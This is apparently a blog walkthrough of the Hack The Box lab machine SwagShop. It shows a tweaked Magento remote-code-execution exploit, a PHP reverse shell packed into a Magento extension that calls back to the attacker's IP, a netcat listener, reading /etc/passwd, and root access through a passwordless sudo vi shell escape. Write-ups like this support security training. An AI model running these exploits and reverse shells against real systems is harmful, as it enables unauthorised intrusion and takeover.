





This post documents the complete walkthrough of SwagShop, an active vulnerable VM created by [ch4p](https://www.hackthebox.eu/home/users/profile/1) and hosted at [Hack The Box](https://www.hackthebox.eu/)

<!--more https://www.hackthebox.eu/badge/43759-->

| Description                                                                                                                                    |
| ---------------------------------------------------------------------------------------------------------------------------------------------- |
| *SwagShop* is a retired GNU/Linux eCommerce web server using an outdated/unpatched version of `Magento` with known vulnerabilities and exploits. The Linux system allows the `Apache` user to run a sudo command with no password required, allowing privilege escalation to root.      |


### ❯ Information Gathering 

Starting with a `Nmap` scan

[Nmap cheat sheet](https://notes.secbytes.net/information-gathering/nmap)
```
•➜ nmap -sV -sC -oA namp 10.10.10.140
...
 └> PORT   STATE SERVICE VERSION 
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) 
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) 
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 
    |_http-server-header: Apache/2.4.18 (Ubuntu) 
    |_http-title: Home page Service Info: OS: Linux; 
```
From the SSH flag, we guessed this box to be [Ubuntu Xenial](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.8) and `Nmap` finds `80/tcp` open.


### ❯ Web Pages Enumeration

Going to `http://10.10.10.140` in the browser




we find a `Magento` shop with some HTB swag available.The pages are copyrighted from 2014, We can see at [this](https://www.cloudways.com/blog/magento-versions/) page that the last released version in 2014 was 1.9.x.

Browsing around, you will notice that the items are placed under a folder called `index.php/` (http://10.10.10.140/index.php/)

by running two `GoBuster` scans on `http://10.10.10.140/` and `http://10.10.10.140/index.php/` we find the admin panel at `http://10.10.10.140/index.php/admin/` 




And `http://10.10.10.140/downloader/` to access `Magento` Connect Manager. You can upload new
`Magento` packages, which contains PHP files inside.



### ❯ Exploitation


We use `searchsploit` to find exploits in `Magneto 1.9.x` 



and we notice a remote code execution exploit

| Exploit Title                             | Path  (/usr/share/exploitdb/) |
| ----------------------------------------- | ----------------------------- |
| Magento eCommerce - Remote Code Execution | exploits/xml/webapps/37977.py |


 We need to tweak the exploit a little for the odd `$IP/index.php/admin` requirement instead of `$IP/admin`
 ```Python
 ...
 target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php" + "/admin/Cms_Wysiwyg/directive/index/"
...
 ```
we run the script 
```
• ➜ python 37977.py  
 └> WORKED
    Check http://10.10.10.140/admin with creds forme:forme
```

now we can log in to the admin panel `http://10.10.10.140/index.php/admin` and `http://10.10.10.140/downloader` with creds `forme:forme`

----

### ❯ Getting a Reverse Shell

Using the `Magento` Downloader/`Magento` Connect, we attempt to upload an
extension with a PHP reverse shell.

Download any legit `Magento` package, we’ll use `LavaMagentoBD` from [GitHub/P34C3-07/LavaMagentoBD](https://github.com/P34C3-07/LavaMagentoBD) then extract `lavamagento_bd.tgz` we'll have to modify its contents.
```
•➜ tar -xzvf lavalamp_magento_bd.tgz
```
edit the file `./App/code/community/Lavalamp/Connector/controllers/IndexController.php` and replace its contents with a PHP reverse shell, we'll use PHP-Reverse-Shell from [Github/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) make sure to change the `$IP` field to your IP address. we will use port `1234`
```
$ip = '10.10.14.115';  // CHANGE THIS
$port = 1234;
```
get the `MD5` hash for the file
```
• ➜ md5sum ./App/code/community/Lavalamp/Connector/controllers/IndexController.php    
└> 7587816c42712b0c9fe6dccb2c6c5300  IndexController.php
```
copy it then edit `package.xml` and replace `IndexController.php` hash
```xml
    <dir name="controllers">
        <file hash="7587816c42712b0c9fe6dccb2c6c5300" 
              name="IndexController.php"/>
    </dir>
```
compress the files back into `.tgz` file
```
•➜ tar -cvzf lavalamp_magento_bd.tgz -c ./*
```

then upload the file to `http://10.10.10.140/downloader/` login with creds `forme:forme` if the extension is loaded successfully you should see




start listening using netcat
```
•➜ nc -v -n -l -p 1234
```
then in the browser navigate to `http://10.10.10.140/app/code/community/Lavalamp/Connector/controllers/IndexController.php` 
in the terminal you should see that we got a reverse shell 
```
•➜ nc -nvlp 1234
└> listening on [any] 1234 ...
   connect to [<IP>] from (UNKNOWN) [10.10.10.140] 44650
   Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP x86_64 GNU/Linux
   13:22:28 up 32 min,  0 users,  load average: 4.31, 2.61, 1.86
   USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   /bin/sh: 0: can't access tty; job control turned off
```
we  are connected now with the username `www-data`, but we still need to spawn a bash shell with tty
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@swagshop:/$ 
```


## ❯ Own User

Now that we have a shell on the box we can view `etc/passwd`


```
•➜ www-data@swagshop:/$ cat /etc/passwd
└> cat /etc/passwd
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/bin/bash
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:...
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   systemd-timesync:x:100:102:systemd Time Synchronization,,,:...
   systemd-network:x:101:103:systemd Network Management,,,:...
   systemd-resolve:x:102:104:systemd Resolver,,,:...
   systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/...
   syslog:x:104:108::/home/syslog:/bin/false
   _apt:x:105:65534::/nonexistent:/bin/false
   lxd:x:106:65534::/var/lib/lxd/:/bin/false
   mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
   messagebus:x:108:112::/var/run/dbus:/bin/false
   uuidd:x:109:113::/run/uuidd:/bin/false
   dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
   sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
   haris:x:1000:1000:haris,,,:/home/haris:/bin/bash
```
we notice the user `haris` 

```
•➜ www-data@swagshop:/$ ls -alh /home/haris
└> ls -alh /home/haris
   total 36K
   drwxr-xr-x 3 haris haris 4.0K May  8 09:21 .
   drwxr-xr-x 3 root  root  4.0K May  2 14:48 ..
   -rw------- 1 haris haris   54 May  2 14:56 .Xauthority
   lrwxrwxrwx 1 root  root     9 May  8 09:20 .bash_history -> /dev/null
   -rw-r--r-- 1 haris haris  220 May  2 14:48 .bash_logout
   -rw-r--r-- 1 haris haris 3.7K May  2 14:48 .bashrc
   drwx------ 2 haris haris 4.0K May  2 14:49 .cache
   -rw------- 1 root  root     1 May  8 09:20 .mysql_history
   -rw-r--r-- 1 haris haris  655 May  2 14:48 .profile
   -rw-r--r-- 1 haris haris    0 May  2 14:49 .sudo_as_admin_successful
   -rw-r--r-- 1 haris haris   33 May  8 09:01 user.txt

```

we find `user.txt`

```
•➜ www-data@swagshop:/$ cat /home/haris/user.txt
└> cat /home/haris/user.txt
   <user flag>
```


## ❯ Privilege Escalation: Own Root

Enumerating the system leads to the finding that `sudo -l` returns the
list of the user's privileges, and shows that running `vi` with a specific path `/var/www/html/*`
grants superuser privileges, without a password entry, required
```
•➜ www-data@swagshop:/$ sudo -l
└> sudo -l
   Matching Defaults entries for www-data on swagshop:
       env_reset, mail_badpass,
       secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\
       :/sbin\:/bin\:/snap/bin
   
   User www-data may run the following commands on swagshop:
       (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```
open a file using `vi` in `/var/www/html/*`

```
•➜ www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/Bad3r.sh
└> sudo /usr/bin/vi /var/www/html/Bad3r.sh
   Vim: Warning: Output is not to a terminal
   Vim: Warning: Input is not from a terminal
   
   E558: Terminal entry not found in terminfo
   ‘unknown’ not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
   defaulting to ‘ansi’
```
inside `vi` you can spawn a root shell
```
:!/bin/bash
~
~
```

in the interactive shell, we can get the root flag
```
•➜ whoami
└> root
•➜ cat /root/root.txt
     <root flag>
        ___ ___
      /| |/|\| |\
     /_| ´ |.` |_\           We are open! (Almost)
     |     | .   |                                   |
     | --- | --- | --------------------------------- |
     |     | .   | Join the beta HTB Swag Store!     |
     | ___ | .__ | https://hackthebox.store/password |
   
                      PS: Use root flag as password!
```

